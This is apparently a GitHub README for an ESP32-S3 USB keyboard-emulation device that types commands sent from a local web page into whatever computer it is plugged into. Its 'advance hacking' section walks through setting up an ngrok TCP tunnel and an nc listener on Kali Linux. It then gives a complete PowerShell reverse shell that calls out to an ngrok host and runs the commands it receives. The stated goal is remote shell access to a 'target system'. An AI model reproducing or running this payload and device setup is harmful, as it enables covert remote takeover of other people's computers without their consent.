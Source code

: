 # PROJECT_K

**KEYSROKE INJECTION
MODULE USING ESP32
HID EMULATION DEVICE**
**this device will type command what we give from web server and run this script on the system**



first install aurdino ide software on window 
add libraries which are needed<br/> 
#include "Arduino.h"<br/>
#include "USB.h"<br/>
#include "USBHIDKeyboard.h"<br/>
#include <WiFi.h><br/>
#include <WebServer.h><br/>


  1. Open Arduino IDE.
  2. Go to `Tools` > `Board` > `Boards Manager`.
  4. Search for "ESP32" and install the package by Espressif Systems.
  5. goto tools in main page of ide.
  6. click on boards
  7. then select esp32 s3 boards.
  8. copy and paste code which is provided on github repo.
  10. change wifi password to your wifi settings.
  11. change payload if needed
  12. Connect the ESP32-S3 Mini to Your Computer

    - Use a USB cable to connect the ESP32-S3 Mini to your computer.

    - If the device is not recognized, you may need to install the appropriate USB-to-UART bridge drivers. Common drivers include:
  12. Select the Correct Port

    - In the Arduino IDE, navigate to `Tools` > `Port`, and select the port corresponding to your ESP32-S3 Mini device.
  13. Upload the Sketch

    - Click the upload button (right-pointing arrow) in the Arduino IDE to compile and upload the sketch to your device.

    **Note**: Some users have reported issues when uploading code to the ESP32-S3 Mini. If you encounter such problems, you might need to manually set the device to bootloader mode:

    - Press and hold the `BOOT` button on the device.

    - While holding the `BOOT` button, press the `RESET` button once.

    - Release the `BOOT` button.


  ## Connecting to Wi-Fi ##

    -  now plugin the device into pc/laptop. 
    -  you get ip address of the device connnected to wifi in serial monitor. copy the ip address from it and paste on the         broswer search bar.
    -  then press enter.
    -  then a local webpage will open on broswer. webpage will look like the image shown below
   ![Alt text](img.jpg)

   
    - now paste your script to execte on powershell window 
    - then click **send** to execute on laptop/pc.

**this is the project keystroke injection module **



##**now for advance  hacking we use kali linux, reverse powershell, ngrok server**

  ##work to done on kali linux

  1. use kali liux os in one of your system
  2. then we want to install ngrok in the kali linux os
  3. open command prompt in the kali
  4. paste the command

         curl -sSL https://ngrok-agent.s3.amazonaws.com/ngrok.asc \
          | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null \
          && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" \
         | sudo tee /etc/apt/sources.list.d/ngrok.list \
          && sudo apt update \
          && sudo apt install ngrok
  5. now login to accout to ngrok account and copy your authentication TOKEN
  6. now type the command and paste token to login to your account in kali linux.

         ngrok config add-authtoken <TOKEN>

  
  7.we want to setup  server to avalible on public host

        ngrok tcp 1337
        
  8.then we want to setup listner for reverse shell connection

        nc -lvnp 1337

  9. output window will be like

    ngrok                           (Ctrl+C to quit)

    Session Status                online
    Account                       inconshreveable (Plan: Free)
    Version                       3.0.0
    Region                        United States (us)
    Latency                       78ms
    Web Interface                 http://127.0.0.1:4040
    Forwarding                    tcp://0.tcp.in.ngrok.io:15660 -> http://localhost:8080

    Connections                   ttl     opn     rt1     rt5     p50     p90
                                  0       0       0.00    0.00    0.00    0.00


10. we need to copy the ngrok port number it would be like 15660 or other 5 digit number:

        tcp://0.tcp.in.ngrok.io:15660
    


##payload part

1. our payload is a reverse powershell code which makes a powershell connection to the listner. we need to setup ngrok before executing payload.
2. code

        $client = New-Object System.Net.Sockets.TCPClient("0.tcp.in.ngrok.io", 15660)
        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}
        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
        $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()
        }
        $client.Close()
3.now replace 15660 number with latest ngrok server port from this line

     $client = New-Object System.Net.Sockets.TCPClient("0.tcp.in.ngrok.io", 15660)

# now payload has been created 
  ##1.  now start ngrok server.
  ##2.  open broswer and type ip address and click enter.
  ##3.  now paste payload in textbox and then click send
  ##4.  In 5 second you will get connetion of target system in kali linux.
  ##5.  Then click enter. 
  ##6.  now access of powershell has been to the kali linux.
  ##7.  we can execute so many commands to the system.
  




    
    
  

    



